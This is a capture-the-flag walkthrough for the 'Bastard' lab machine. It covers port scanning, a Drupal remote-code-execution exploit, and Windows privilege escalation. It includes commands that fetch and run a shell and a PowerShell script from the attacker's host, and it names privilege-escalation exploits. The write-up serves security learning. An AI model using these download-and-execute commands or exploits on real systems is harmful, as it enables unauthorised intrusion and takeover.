


# Bastard

In this room we are going to attempt to get root in the **Bastard** machine which its theme is Windows Privilege Escalation!

Let's begin.

### Port Enumeration

Let's first start with a simple port enumeration command:

```
nmap <ip> -A -T4 -p-
```

> PORT      STATE SERVICE VERSION
> **80/tcp    open  http    Microsoft IIS httpd 7.5**
> |_http-server-header: Microsoft-IIS/7.5
> |_http-generator: Drupal 7 (http://drupal.org)
> | http-robots.txt: 36 disallowed entries (15 shown)
> | /includes/ /misc/ /modules/ /profiles/ /scripts/ 
> | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
> | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
> |_/LICENSE.txt /MAINTAINERS.txt
> |_http-title: Welcome to Bastard | Bastard
> | http-methods: 
> |_  Potentially risky methods: TRACE
> **135/tcp   open  msrpc   Microsoft Windows RPC**
> **49154/tcp open  msrpc   Microsoft Windows RPC**
> Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

From the output of the nmap scan we performed we know now that the machine has 2 RPC ports and one HTTP.

Since RPC ports are hard to exploit let us move on to HTTP. From the nmap scan we can see that its a Microsoft IIS server built using the Drupal Framework version 7. Additionally, we can see that are a ton of directories listed under robots.txt.

### Foothold

Using the browser I manually combed the website and its hidden directories disclosed in robots.txt. The website in itself is simple, it has a login form, create account form and password recovery form.

I detected username enumeration on the password recovery form but nothing caught my eye. I tried to detect SQL injection with a single apostrophe on all the input boxes but no errors were returned. Hence, before going deeper I decided to go search for exploits such as RCE online.

It was a difficult search and not many exploits seemed to work until I [found this one](https://github.com/pimps/CVE-2018-7600). With this exploit we can execute any command on the given host that is vulnerable and hence we are going to create a directory, upload our shell and execute it.

```
mkdir c:\temp & certutil.exe -urlcache -f http://10.10.16.13/shell.exe c:\temp\shell.exe & c:\temp\shell.exe
```

Hence:

```
python exploit.py -c 'mkdir c:\temp & certutil.exe -urlcache -f http://10.10.16.13/shell.exe c:\temp\shell.exe & c:\temp\shell.exe' http://10.10.10.9
```

Great we got a shell!

### Privilege Escalation

Run Windows Exploit Suggester with systeminfo:



Leverage MS10-59:


Transfer the executable to the target and exploit using:

```
churraskito.exe <local ip> <local port>
```

Enjoy!

**Alternative:**

Use Sherlock.ps1 to learn about a vulnerability the machine is susceptible to. I used the command below from the cmd to download and execute the Sherlock.ps1 in one go:

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.13/Sherlock.ps1') | powershell -noprofile -
```



After a bit of research online I discovered the module below that I could use to escalate privileges:

```
windows/local/ms15_051_client_copy_image
```

Setup the necessary configuration and enjoy! Great we are root now!
